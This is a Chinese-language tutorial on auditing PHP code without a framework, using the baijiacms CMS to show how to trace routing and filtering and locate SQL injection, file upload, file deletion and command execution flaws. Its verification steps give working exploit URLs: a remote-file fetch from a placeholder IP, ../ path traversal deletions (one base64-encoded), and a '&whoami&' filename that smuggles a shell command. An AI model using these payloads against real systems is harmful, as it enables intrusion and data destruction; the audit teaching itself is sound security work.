# 奇安信攻防社区-PHP 无框架代码审计

### PHP 无框架代码审计

本文主要以 baijiacms 为例分享一些 PHP 无框架代码审计的思路

## 0x00 审计环境

```php
phpstudy(php5.6.27+Apache+mysql)
Windows10 64位 
PHPStorm
```

将源码放到 WWW 目录，访问/install.php 安装即可  


## 0x01 目录结构

开始审计前，先看一下目录结构，判断是否使用框架开发，常见的框架如 Thinkphp、Laravel、Yii 等都有比较明显的特征  


判断没有用框架，就先搞清楚目录结构、路由。主要关注以下几个方面：

1）入口文件 index.php：根目录下的 index.php 文件是一个程序的入口，通常会包含整个程序的运行流程、包含的文件，所以通读一下 index.php 文件有助于我们了解整个程序的运行逻辑

2）安全过滤文件：安全过滤文件中会写函数对参数进行过滤，所以了解程序过滤的漏洞，对于我们进行漏洞利用至关重要。这类文件通常会在其他文件中包含，所以一般会在特定的目录，如上面的 includes 目录下。另外，找这类文件，也可以从其他文件包含的文件去看

3）函数集文件：函数集文件中会写一些公共的函数，方便其他文件对该函数进行调用，所以这类文件也会在其他文件中进行包含。这类文件通常会存放在 common 或 function 等文件夹中

### 1、入口文件 index.php 分析

首先检查/config/install.link 文件是否存在，如果不存在就重定向到 install.php 进行安装  


然后通过条件判断来确定 $mod 的值，然后跟进 $mod 的值定义`SYSTEM_ACT`常量  


接着根据是否传入参数 do 和 act 来确定参数的值  


在最后包含 includes/baijiacms.php

### 2、安全过滤分析

跟进到 includes/baijiacms.php 查看，一开始定义一些常量  


随后发现该文件中定义了一个 irequestsplite 函数  


irequestsplite() 函数主要是用 htmlspecialchars() 将预定义字符（&、<、>、"、'）转换为 HTML 实体，防止 XSS。92 行对$\_GP 调用 irequestsplite() 处理，即对 GET 和 POST 传入的数据都进行处理  


### 3、路由分析

路由信息可通过全局搜索 route 关键字，到写了路由配置的文件中查看

如果在文件中没有找到，可以访问网站，查看 url，结合 url 中的参数和文件目录及文件名进行理解  


在登录页面，可以看到四个参数 mod、act、do、beid，这里主要关注前三个，将这三个变量接收的参数在网站目录的文件中寻找  


可以看到接收的值和标记的文件目录文件名一样，index.php 调用了 page，查看一下  


会调用/template/mobile/目录下的 index.php 文件  


确认是正确对应，act 代表目录名，mod 代表目录名，do 代表文件名

登录后台页面，查看 url，site、manager、store 三个参数  


继续看网站目录的文件，发现 web 目录不符合  


尝试修改 mod 值为 web，发现可正常访问  


至此了解了网站路由，且所有接收参数都是 system 目录下的文件中，所以我们可以重点看该目录下的文件。

## 0x02 代码审计

审计代码可以从两个方向出发：

-   从功能点进行审计，通过浏览网页，寻找可能存在漏洞的功能点，然后找到相对应的源码进行审计
-   从代码方向进行审计，通过全局搜索危险函数，审计相关函数的参数是否可控，来审计是否存在漏洞

### 1、sql 注入审计

主要注意执行 sql 语句的地方参数是否用户可控，是否使用了预编译

可以全局搜索 select 等 sql 语句关键词，然后定位到具体的语句，然后查看里面有没有拼接的变量；也可以浏览网页，找具有查询功能的地方，定位到文件参数，审计是否存在漏洞

浏览网页，发现搜索功能  


根据 url 定位到文件\\system\\manager\\class\\web\\store.php，抓包发现接收参数为 sname，搜索 sname  


`$_GP['sname']`接收我们输入的参数并使用单引号包裹拼接到 SQL 语句中，只看这里很明显存在 sql 注入

但是在前面看全局过滤的时候，知道对传参使用`htmlspecialchars()`函数进行处理，会将单引号转换成 html 实体，而此处需要单引号闭合，所以不存在 sql 注入

### 2、文件上传/文件写入审计

审计文件上传/写入漏洞，主要需要关注是否对文件类型、文件大小、上传路径、文件名等进行了限制。

有的项目，会将文件上传下载功能封装到一个自定义函数中，所以可以全局搜索 upliad、file 的函数，看看是否有自定义的函数。

也可以直接搜索`move_uploaded_file`、`file_put_contents`函数，判断参数是否可控。

全局搜索`move_uploaded_file`，发现两处调用  


在 excel.php 中，检查文件后缀是否为 xlsx，无法上传，看第二处 common.inc.php 文件  


在`file_move`自定义函数中使用了`move_uploaded_file`函数，移动上传的文件，跟进`file_move`  


在`file_save`函数中调用，继续跟进`file_save`，找到 4 处调用，逐个审计，发现只有一处对文件后缀没有限制  


`fetch_net_file_upload`函数中，通过 $url 获取文件名，存到 $extention，然后经过拼接取得上传路径，利用`file_put_content`函数上传文件，然后调用`file_save`将上传的文件移动到新的位置

该函数中没有对上传后缀、上传大小等做限制，很显然会存在文件上传。  
接着搜索哪里调用了`fetch_net_file_upload`，找到一处调用  


可以发现上传的数据通过 url 参数传入，传参方式为$\_GPC，等同与$\_GP  


所以可以通过 url 传入远程恶意文件地址，达到文件写入的目的

##### 漏洞验证

根据文件路径构造 url  
`/index.php?mod=web&act=public&do=file&op=fetch&url=http://远程IP/info.php`



访问该路径，成功写入



### 3、任意文件删除审计

审计任意文件删除，需要注意是否存在`../`、`.`、`..\`等跨目录的字符过滤，是否配置了路径等

文件删除主要搜索`unlink`、`rmdir`函数，unlink 用于删除文件，rmdir 用于删除文件夹

#### 任意文件删除一

全局搜索 unlink，在 common.inc.php 中写了一个`file_delete`函数中调用了 unlink 删除文件  


寻找`file_delete`调用的地方，看参数可控处审计  


在`/system/eshop/coe/mobie/util/uploader.php`中，调用`file_delete`删除文件，且参数可控

##### 漏洞验证：

在根目录下创建一个 aaa.txt，构造 url 删除  


`/index.php?mod=mobile&do=util&act=uploader&m=eshop&op=remove&file=../aaa.txt`





成功删除

#### 任意文件删除二

common.inc.php 中的 rmdirs 函数同样调用了 unlink 函数，并且发现还调用了 rmdir 函数  


首先用`is_dir`判断传入的参数是否是一个目录，如果是，并且不是/cache/目录，就调用 rmdir 删除目录；如果不是，则调用 unink 删除文件

全局搜索`rmdirs`，在`/system/manager/class/web/database.php`找到一处调用  


通过 id 传入参数并 base64 解码，然后传入判断是一个目录，则调用 rmdirs，这里限制了只能删除一个目录

##### 漏洞验证：

在根目录创建一个 test 目录，构造 url 删除，将`../../test`进行 base64 编码传入 id  
`/index.php?mod=web&act=manager&do=database&op=delete&id=Li4vLi4vdGVzdA==`



成功删除

### 4、命令执行审计

命令执行可以全局搜索一切可以执行命令的函数，如`exec、passthru、proc_open、shell_exec、system、pcntl_exec、popen`等，审计参数是否可控

全局搜索这些函数，找到在 common.inc.php 文件中存在一处 file\_save 函数调用 system()  


当`$settings['image_compress_openscale']`非空的时候，就会调用 system()，参数拼接的，其中`$file_full_path`是通过函数传入的第四个参数

搜索`image_compress_openscale`的值  


可以看到是通过$\_GP 传入进行设置，发数据包设置为非空即可

接下来寻找`file_save`函数调用的地方，主要关注第四个参数是否可控即可，在`/system/weixin/class/web/setting.php`中找到一处调用  


可以看到第四个参数是根目录路径加上`$fie['name']`



`$fie['name']`来源于`$_FILES['weixin_verify_file']`为用户可控，构造文件名即可执行命令，后续会检查后缀是否为 txt

##### 漏洞验证：

定位到漏洞存在路径  
`/index.php/?mod=web&act=weixin&do=setting`  


上传文件抓包，修改文件名（因为前面会拼接路径，所以需要用&进行分割）  
`filename="&whoami&.txt"`



## 0x03 总结

这篇文章涉及到的漏洞并不多，但是其他的漏洞审计也是差不多，搜索可能产生漏洞的函数，检查过滤是否到位，参数是否可控等。
